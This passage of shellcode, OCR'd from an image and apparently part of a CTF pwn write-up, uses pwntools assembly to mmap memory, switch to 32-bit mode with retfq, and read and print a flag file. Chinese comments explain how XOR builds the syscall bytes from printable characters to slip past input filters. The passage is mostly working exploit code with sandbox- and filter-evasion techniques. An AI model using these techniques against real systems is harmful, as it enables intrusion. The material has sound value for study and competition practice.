 ```plain
push 0x40404089
retfq

/*read(fp,buf,0x70)*/
mov rdi,rcx
mov rsi,rsp
mov rdx,0x70
xor rax,rax
syscall

/*write(1,buf,0x70)*/
mov rdi,1
mov rax,1
syscall
'''
shellcode_x86 = asm(shellcode_x86)
shellcode_flag = asm(shellcode_flag, arch = 'amd64', os = 'linux')
shellcode = ''

# 0x40404040 为 32 位 shellcode 地址
shellcode_mmap = '''
/*mmap(0x40404040,0x7e,7,34,0,0)*/
push 0x40404040 /*set rdi*/
pop rdi

push 0x7e /*set rsi*/
pop rsi

push 0x40 /*set rdx*/
pop rax
xor al,0x47
push rax
pop rdx

push 0x40 /*set r8*/
pop rax
xor al,0x40
push rax
pop r8

push rax /*set r9*/
pop r9

/*syscall*/
/* syscall 的机器码是 0f 05, 都是不可打印字符。*/
/* 用异或运算来解决这个问题：0x0f = 0x5d^0x52, 0x05 = 0x5f^0x5a. */
/* 其中 0x52,0x5a 由 append 提供。*/
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x31],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x32],cl

push 0x22 /*set rcx*/
pop rcx

push 0x40/*set rax*/
pop rax
xor al,0x49
'''
```